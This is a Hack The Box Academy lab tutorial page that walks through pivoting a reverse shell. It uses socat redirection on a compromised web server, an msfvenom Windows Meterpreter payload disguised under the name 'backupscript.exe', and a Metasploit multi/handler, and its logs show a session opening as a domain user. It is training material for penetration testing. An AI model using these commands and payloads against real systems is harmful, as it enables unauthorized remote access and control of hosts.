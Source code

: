 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/158/section/1430
// Platform Version: V1
// Module ID: 158
// Module Name: Pivoting, Tunneling, and Port Forwarding
// Module Difficulty: Medium
// Section ID: 1430
// Section Title: Socat Redirection with a Reverse Shell
// Page Title: Pivoting, Tunneling, and Port Forwarding
// Page Number: 06
-->

# Socat Redirection with a Reverse Shell

**Module Name:** Pivoting, Tunneling, and Port Forwarding **Page Number:** 06

#### PIVOTING, TUNNELING, AND PORT FORWARDING

# Socat Redirection with a Reverse Shell

#### Starting Socat Listener

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

#### Creating the Windows Payload

```shell-session
[!bash!]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

#### Starting MSF Console

```shell-session
[!bash!]$ sudo msfconsole

<SNIP>
```

#### Configuring & Starting the multi/handler

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

#### Establishing the Meterpreter Session

```shell-session
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```

# 

# 

#### Questions

####